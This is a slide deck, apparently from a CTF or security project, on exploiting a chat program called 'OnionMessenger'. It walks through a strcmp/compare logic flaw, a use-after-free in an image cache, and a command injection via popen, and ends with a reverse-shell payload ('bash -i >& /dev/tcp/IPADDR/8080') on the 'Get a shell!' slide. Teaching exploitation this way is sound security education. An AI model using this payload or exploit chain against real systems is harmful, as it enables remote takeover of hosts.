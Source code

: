## Vulnerability and Exploitation 
- Hongsik Kim (w/ VOM)

---

## New Features
1. Image File Cache
2. /r, /rpl Command

---

## Image File Cache
---?image=assets/image/origin.jpg&size=auto 50%

---?image=assets/image/cached.JPG&size=auto 50%

---

## /r Command
---?image=assets/image/reply.jpg&size=auto 70%

---

## Vulnerabilities
- Logical |
    - Difference between strcmp and compare |

- Memory |
    - Use After Free |
    - Command Injection |

---

### poc.cc

```C++
using namespace std;

int main(){
    char buf[100] = "abcd\x00efg";
    string s1 = string(buf, 8);
    string s2 = string(buf);
    
    if (!strcmp(s1.c_str(), s2.c_str()))
        cout << "strcmp equal!!" << endl;

    if (!s1.compare(s2))
        cout << "compare equal!!" << endl;
}
```

@[9](Executed)

---

### Utils/Cache.cc

```C++
#include "Cache.hh"

namespace Cache {
    Cache::Cache() {
        count = 0;
    }
    Cache::~Cache() {
    }
    
    Element* Cache::find(string url) {
        for (auto it = data.begin(); it != data.end(); ++it) {
            if (!strcmp(url.c_str(), (*it).first.c_str()))
                return (*it).second;
        }
        return NULL;
    }


    void Cache::insert(string url, string sender, string path) {
        if (this->is_full())
            return;
        Element* elem = new Element(path, sender);
        data.push_back(make_pair(url, elem));
        count++;
    }

    Element* Cache::remove(string url) {
        auto elem = this->find(url);
        if (elem){
            for (auto it = data.begin(); it != data.end(); ++it) {
                if (!url.compare((*it).first)) {
                    it = data.erase(it);
                    return elem;
                }
            }
        }
        return elem;
    }

    void Cache::update(string url) {
        auto elem = this->remove(url);
        if (elem) {
            data.push_back(make_pair(url, elem));
        }
    }

    void Cache::pop() {
        auto it = data.begin();
        ++it;
        delete (*it).second;
        data.erase(it);
        count--;
    }

    Element::Element(string _path, string _sender) {
        path = _path;
        sender = _sender;
    }
    Element::~Element() {
    }
    
    string Element::GetPath() {
        return path;
    }

    string Element::GetSender() {
        return sender;
    }
}
```

@[10-16](Cache::find)
@[12](Using strcmp)
@[27-38](Cache::remove)
@[31](Using String::compare)
@[40-45](Cache::update)
@[47-53](Cache::pop)
@[55-68](Element Class)

---

### OnionMessenger.cc

```C++
void OnionMessenger::HandleAArt(Message::ImgLayer *msg) {                      
    auto sender = msg->GetSender();                                            
    auto url = msg->GetUrl();                                                  
    auto elem = image_cache->find(url);                                        
    string path;                                                               
    if (!elem){		// Cache Miss                                                              
        provider->PushChat(sender, "\n" + \
            Features::DisplayAArt(url, path));
        if (image_cache->is_full()) {                                          
            image_cache->pop();                                                
        }                                                                      
        image_cache->insert(url, sender, path);                                
    } else {		// Cache Hit                                                               
        provider->PushChat(sender, "\n" + \
            Features::Asciiart(elem->GetPath().c_str()));
        image_cache->update(url);                                              
    }                                                                          
    snprintf(recent_user, MAX_ID_LEN, "%s", sender.c_str());                   
    delete msg;                                                                
}                                                
```

@[6-12](Cache Miss)
@[13-17](Cache Hit)

---

## Exploit Scenario
![](assets/image/process1.png)
@[](Handshake)
<!-- .slide: data-background-transition="none" -->
![](assets/image/process2.png)
@[](Heap spray)
<!-- .slide: data-background-transition="none" -->
---?image=assets/image/process3.png&size=60%
@[](Send a Image packet)
<!-- .slide: data-background-transition="none" -->
---?image=assets/image/process4.png&size=60%
@[](Concatination previous URL and NULL)
<!-- .slide: data-background-transition="none" -->
---?image=assets/image/process5.png&size=60%
@[](Make Cache Full. To trigger pop)
<!-- .slide: data-background-transition="none" -->
---?image=assets/image/process6.png&size=60%
@[](Overwrite string object of Element)
<!-- .slide: data-background-transition="none" -->
---?image=assets/image/process3.png&size=60%
@[](Trigger GetPath)
<!-- .slide: data-background-transition="none" -->

---

## Control GetPath
```C++
    } else {		// Cache Hit                                                               
        provider->PushChat(sender, "\n" + \
            Features::Asciiart(elem->GetPath().c_str()));
        image_cache->update(url);                                              
    }
```

@[3](with manipulated path)

---

### Utils/Features.cc
```C++
string Asciiart(const char *filepath) {                                        
    string path = "/root/bin/goasciiart " ;                                    
    //string path = "/bin/go/bin/goasciiart ";                                 
    string result= "";                                                         
    path.append(" -p ").append(filepath).append(" -w 80");                     
    char buf[1024];                                                            
    FILE *fp=NULL;                                                             
    cout << path << endl;                                                      
    fp=popen((char*)path.c_str(),"r");                                         
    if (fp) {                                                                  
        while ((fgets(buf,1024,fp)) != NULL) {                                 
            result.append(string(buf));                                        
        }                                                                      
        pclose(fp);                                                            
    }                                                                          
    return result;                                                             
}                                  
```
@[5, 9](Command Injection)

---                                                                          
### Get a shell!

```C++
popen("/root/bin/goasciiart –p \
    ;echo \"bash -i >& /dev/tcp/IPADDR/8080 0>&1\"  | bash;\
    –w 80");
```

---

# Demo


